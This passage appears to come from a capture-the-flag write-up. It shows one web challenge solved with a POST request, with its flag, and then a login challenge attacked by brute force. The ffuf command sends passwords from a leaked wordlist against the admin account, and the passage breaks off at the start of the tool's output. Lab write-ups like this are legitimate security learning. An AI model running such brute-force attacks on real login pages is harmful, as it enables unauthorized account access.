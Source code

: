 As the description highlights the `Post`, we just have to make a POST request to the challenge URL.

![kevin-flag.png](files/kevin-flag.png#center)

Flag: `CyberYami{K3v1n_tH3_h4cK3r}`

### Login 1

URL: `http://13.201.47.7/Login1/` \
Point: `30` \
Description: _Just login, That's it._

![login_1-1.png](files/login_1-1.png#center)

It is just one simple login page. After trying different injection techniques, nothing worked, so let's use the last resort **Brute Force**.

```bash
┌──PS(Aftab@Sama)-[~\Downloads]
└─$ ffuf -H 'Content-Type: application/x-www-form-urlencoded' -d 'u=admin&p=FUZZ' -w D:\Tools\wordlist\web\SecLists-2024.3\Passwords\Leaked-Databases\rockyou-50.txt -u 'http://13.201.47.7/Login1/' -fr 'Invalid username or password.'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://13.201.47.7/Login1/
 :: Wordlist         : FUZZ: D:\Tools\wordlist\web\SecLists-2024.3\Passwords\Leaked-Databases\rockyou-50.txt
```